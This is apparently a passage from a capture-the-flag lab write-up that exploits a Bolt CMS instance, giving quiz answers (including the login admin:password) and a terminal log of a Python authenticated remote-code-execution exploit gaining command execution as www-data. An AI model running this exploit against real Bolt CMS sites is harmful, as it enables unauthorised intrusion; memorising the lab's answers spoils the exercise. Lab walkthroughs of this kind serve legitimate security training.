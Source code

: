 In the exploit from 2020-04-05, what language is used to write the exploit?
*python*



As the exploit is authenticated, you will also need a username and password. Knowing the URI for the login-portal is also critical for the exploit to work. Find the login-portal and try login in. 
*admin:password*

### Reverse shell 

```
┌──(kali㉿kali)-[~/bolt/Boltcms-Auth-rce-py]
└─$ python3 exploit.py http://erit.thm admin password

 ▄▄▄▄▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄  ▄       ▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄▄▄▄  ▄▄       ▄▄  ▄▄▄▄▄▄▄▄▄▄▄                        
▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌▐░▌     ▐░░░░░░░░░░░▌▐░░░░░░░░░░░▌▐░░▌     ▐░░▌▐░░░░░░░░░░░▌                       
▐░█▀▀▀▀▀▀▀█░▌▐░█▀▀▀▀▀▀▀█░▌▐░▌      ▀▀▀▀█░█▀▀▀▀ ▐░█▀▀▀▀▀▀▀▀▀ ▐░▌░▌   ▐░▐░▌▐░█▀▀▀▀▀▀▀▀▀                        
▐░▌       ▐░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌▐░▌ ▐░▌▐░▌▐░▌                                 
▐░█▄▄▄▄▄▄▄█░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌ ▐░▐░▌ ▐░▌▐░█▄▄▄▄▄▄▄▄▄                        
▐░░░░░░░░░░▌ ▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌  ▐░▌  ▐░▌▐░░░░░░░░░░░▌                       
▐░█▀▀▀▀▀▀▀█░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌   ▀   ▐░▌ ▀▀▀▀▀▀▀▀▀█░▌                       
▐░▌       ▐░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌       ▐░▌          ▐░                        
▐░█▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄▄▄▄▄ ▐░▌     ▐░█▄▄▄▄▄▄▄▄▄ ▐░▌       ▐░▌ ▄▄▄▄▄▄▄▄▄█░▌                       
▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌▐░░░░░░░░░░░▌▐░▌     ▐░░░░░░░░░░░▌▐░▌       ▐░▌▐░░░░░░░░░░░▌                       
 ▀▀▀▀▀▀▀▀▀▀   ▀▀▀▀▀▀▀▀▀▀▀  ▀▀▀▀▀▀▀▀▀▀▀  ▀       ▀▀▀▀▀▀▀▀▀▀▀  ▀         ▀  ▀▀▀▀▀▀▀▀▀▀▀                        
                                                                                                             
Pre Auth rce with low credintanl                                                                             
#Zero-way By @r3m0t3nu11 speical thanks to @dracula @Mr_Hex                                                  
[+] Retrieving CSRF token to submit the login form
[+] Login token is : 6qk4na6wX0ve0NqVXdbeTuKbwE-YPUVnBYYGrQP_sHM
[+] SESSION INJECTION 
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[+] FOUND  : test5
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[+] FOUND  : test15
[-] Not found.
[-] Not found.
[-] Not found.
Enter OS command , for exit 'quit' : id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```